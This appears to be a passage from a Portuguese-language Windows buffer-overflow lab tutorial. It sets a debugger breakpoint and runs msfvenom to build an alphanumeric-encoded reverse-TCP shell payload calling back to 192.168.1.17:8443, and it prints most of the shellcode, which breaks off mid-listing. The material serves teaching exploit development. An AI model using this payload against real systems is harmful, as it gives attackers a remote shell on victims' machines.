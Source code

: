 Vamos inserir um breakpoint em nosso endereço de retorno e monitorar com Immunity.

![Enumaração do comando.](/std/winbof/winbof-88.png)

Caímos exatamente em cima do nosso buffer de “C”.

Podemos criar nosso shellcode, porém, temos uma limitação de caracteres muito grande.

Por sorte, a suite Metasploit trabalha com vários tipos de encoders, um deles é o x86/alpha_mixed que faz a transcrição do nosso shellcode para bytes alfa numéricos, mais sobre o encode [aqui](https://www.offensive-security.com/metasploit-unleashed/alphanumeric-shellcode/).

Vamos gerar nosso shellcode:

```bash
$ msfvenom -p windows/shell_reverse_tcp lhost=192.168.1.17 lport=8443 exitfunc=thread -e x86/alpha_mixed -b '\x00' bufferregister=esp -f py -v shellcode
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/alpha_mixed
x86/alpha_mixed succeeded with size 702 (iteration=0)
x86/alpha_mixed chosen with final size 702
Payload size: 702 bytes
Final size of py file: 3913 bytes
shellcode =  b""
shellcode += b"\x54\x59\x49\x49\x49\x49\x49\x49\x49\x49\x49"
shellcode += b"\x49\x49\x49\x49\x49\x49\x49\x37\x51\x5a\x6a"
shellcode += b"\x41\x58\x50\x30\x41\x30\x41\x6b\x41\x41\x51"
shellcode += b"\x32\x41\x42\x32\x42\x42\x30\x42\x42\x41\x42"
shellcode += b"\x58\x50\x38\x41\x42\x75\x4a\x49\x69\x6c\x68"
shellcode += b"\x68\x6f\x72\x73\x30\x47\x70\x53\x30\x53\x50"
shellcode += b"\x6b\x39\x5a\x45\x64\x71\x4b\x70\x30\x64\x6e"
shellcode += b"\x6b\x52\x70\x76\x50\x4e\x6b\x31\x42\x54\x4c"
shellcode += b"\x6c\x4b\x53\x62\x35\x44\x4c\x4b\x42\x52\x57"
shellcode += b"\x58\x64\x4f\x4e\x57\x72\x6a\x34\x66\x30\x31"
shellcode += b"\x39\x6f\x4c\x6c\x55\x6c\x53\x51\x61\x6c\x66"
shellcode += b"\x62\x66\x4c\x51\x30\x79\x51\x68\x4f\x34\x4d"
shellcode += b"\x43\x31\x48\x47\x39\x72\x68\x72\x32\x72\x76"
shellcode += b"\x37\x4c\x4b\x62\x72\x32\x30\x6e\x6b\x31\x5a"
shellcode += b"\x55\x6c\x6e\x6b\x72\x6c\x64\x51\x42\x58\x49"
shellcode += b"\x73\x37\x38\x66\x61\x78\x51\x36\x31\x6e\x6b"
shellcode += b"\x63\x69\x77\x50\x36\x61\x79\x43\x4c\x4b\x62"
shellcode += b"\x69\x72\x38\x68\x63\x55\x6a\x51\x59\x4e\x6b"
shellcode += b"\x64\x74\x4e\x6b\x67\x71\x78\x56\x70\x31\x79"
shellcode += b"\x6f\x4c\x6c\x6a\x61\x4a\x6f\x74\x4d\x66\x61"
shellcode += b"\x7a\x67\x76\x58\x39\x70\x44\x35\x6c\x36\x34"
shellcode += b"\x43\x31\x6d\x39\x68\x47\x4b\x43\x4d\x76\x44"
shellcode += b"\x51\x65\x68\x64\x30\x58\x4c\x4b\x66\x38\x36"
shellcode += b"\x44\x77\x71\x79\x43\x75\x36\x6c\x4b\x54\x4c"
```